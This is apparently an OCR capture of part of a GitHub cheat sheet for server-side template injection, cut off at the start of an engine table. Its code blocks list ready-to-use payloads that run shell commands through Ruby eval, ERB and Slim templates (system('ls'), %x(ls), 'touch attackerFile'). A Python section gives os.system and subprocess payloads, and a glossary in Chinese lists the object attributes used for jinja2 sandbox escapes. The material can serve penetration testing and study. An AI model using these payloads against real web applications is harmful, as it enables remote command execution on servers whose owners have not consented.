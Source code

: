 | Slim                 | Ruby       | 5080 | #{%s}              |
| ERB                  | Ruby       | 5081 | <%=%s%>            |
| (code eval)          | Ruby       | 5082 | na                 |
| go                   | go         | 5090 | na                 |

### Ruby

#### eval

```ruby
2*3
system("ls")
```

#### erb

```ruby
<%=2*3%>
<%=%x(ls )%>
<%=system( "touch attackerFile" )%>
```

#### slim

```ruby
#{2*3}
#{%x( ls )}
#{system( "touch attackerFile" )}
```

### Python

[Python SSTI => BYPASS](https://mp.weixin.qq.com/s/43nIimUITehBI2h21e9IgA)

#### eval/exec

```python
# eval
2*3
__import__("subprocess").check_output("ls")

# exec 无回显
__import__("os").system("cat *")
__import__("subprocess").Popen("echo Hello World", shell=True, stdout=subprocess.PIPE).stdout.read()
__import__("subprocess").check_output("ls")
```

#### jinja2/Flask

```
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
```
